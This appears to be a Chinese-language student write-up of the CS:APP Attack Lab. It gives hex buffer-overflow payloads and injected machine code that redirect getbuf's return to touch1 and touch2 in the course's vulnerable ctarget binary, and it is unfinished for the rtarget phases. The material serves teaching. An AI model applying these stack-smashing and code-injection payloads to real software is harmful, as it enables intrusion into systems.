

# lab3 attacklab

准备工作：获取2个目标代码的汇编代码：  
objdump -d ctarget > ctarget.s  
objdump -d rtarget > rtarget.s

## phase 1(ctarget level1)

要求：在执行完test()中的getbuf()函数后，不是返回到test()中，而是去执行touch1()函数。  

题解：只需要把栈上面的返回地址覆盖成touch1函数的地址004017c0即可。
但因为小端的问题，所以地址要反过来写：c0 17 40 00

可以看到getbuf函数一开始先给栈分配了40个字节的空间，所以需要把这40个字节填满，再写入地址：
(cl1hex.txt的内容)

41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50  
41 42 43 44 45 46 47 48 49 50 /* 40个字节 */  
c0 17 40 00 /* touch1()的地址 */

运行phase1的操作：  
./hex2raw < cl1hex.txt > cl1raw.txt  
./ctarget -q < cl1raw.txt

## phase2 (ctarget level2)

要求：在执行完test()中的getbuf()函数后，执行touch2()函数，并且需要给touch2()传递一个整型的参数(cookie)

题解：
汇编代码：
sub dif,%rsp #dif还要算, 让rsp指向 touch2的位置
mov 0x59b997fa, %rdi
retq
touch2的地址。
补全40个字节。
返回到 injection code 第一条指令的位置

把栈给画出来即可(注意指令是从下往上执行的，即从地址低的地方 向地址高的地方执行)：

步骤：
1. 把需要用到的命令放在cl2Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl2Draft.s
得到一个目标代码： cl2Draft.o

2. 反汇编 成汇编代码：
objdump -d cl2Draft.o > cl2Binary.s
得到文件 cl2Binary.s

3. 查看cl2Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl2hex.txt中。得到的内容为：

48 83 ec 24         	/* sub $0x24(36),%rsp  让rsp指向touch2的地址的位置 */
48 c7 c7 fa 97 b9 59 	/* mov 0x59b997fa,%rdi 给touch2传递参数 */
c3                   	/* retq */
ec 17 40 00 00 00 00 00 /* 函数touch2的地址 现在这里有20个字节 */
41 42 43 44 45 46 47 48 49 50 
41 42 43 44 45 46 47 48 49 50 /* 刚好40个字节 */
78 dc 61 55             
/* 返回的injection code的地址 也就是 第一行命令"sub    $0x24(36),%rsp"的地址 */

4. 把 cl2hex.txt 转换成 cl2raw.txt：
./hex2raw < cl2hex.txt > cl2raw.txt

5. 运行程序：
./ctarget -q < cl2raw.txt

# phase3 (ctarget level3)
要求：在执行完test()中的getbuf()函数后，执行touch3()函数，并且需要给touch2()传递一个字符串类型的参数(cookie)

和ctarget level2非常类似，但 需要注意 输入的参数变量(字符串cookie)是字符串类型的，所以需要把它放在栈中，并且需要注意这个字符串不能 被后面执行的函数给覆盖。
而把 cookie放在比rsp的地址 更大的地方，就不会被覆盖。

栈的样子：

1. 把需要用到的命令放在cl3Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl3Draft.s
得到一个目标代码： cl3Draft.o

2. 反汇编 成汇编代码：
objdump -d cl3Draft.o > cl3Binary.s
得到文件 cl3Binary.s

3. 查看cl3Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl3hex.txt中

4. 把 cl3hex.txt 转换成 cl3raw.txt：
./hex2raw < cl3hex.txt > cl3raw.txt

5. 运行程序：
./ctarget -q < cl3raw.txt

rtarget level2:

每次 Gets完之后，rsp的值都不一样的，但 很神奇的是，它所指向的地址的内容都是 一样的，即：
print /x *(long *) $rsp 都一样。在这个位置放 要使用的代码的 位置即可。

rtarget level3:

